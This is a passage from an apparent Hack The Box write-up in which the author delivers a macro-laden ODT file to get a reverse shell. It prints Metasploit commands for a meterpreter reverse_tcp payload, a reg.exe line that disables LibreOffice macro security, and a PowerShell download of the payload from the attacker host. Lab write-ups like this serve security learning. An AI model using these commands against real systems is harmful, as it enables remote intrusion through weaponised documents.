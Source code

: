 ```
❌ Accepted File Types : Doc, Docx, Docm, Odt!
```

I recently solved another machine on HTB that required odt file with macro that we dilevered as phishing email so let's again craft it using msfconfole and upload to target system:

```bash
use exploit/multi/misc/openoffice_document_macro
set payload windows/x64/meterpreter/reverse_tcp
set srvhost 10.10.14.61
set filename shell.odt
set lhost 10.10.14.61
set lport 3333
run
```

We can find applications folder on the system and tony has rights to write it so we will upload shell.odt

I wasn't able to upload it although I had rights to. I forgor to change session to web_account so background tony's session then use web_account's one to upload it. We will change reg using Tony's session because he's in registry editor group so macro wil be executed and we get a reverse shell:

```cmd tony
reg.exe add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" /v "Value" /t REG_DWORD /d 0 /f
```
```cmd web_account
powershell iwr http://10.10.14.61:8080/Xl4xkE -O shell.odt
```

For whatever resons it was sending the payload but none success:

![msf_result](images/Office23.png)
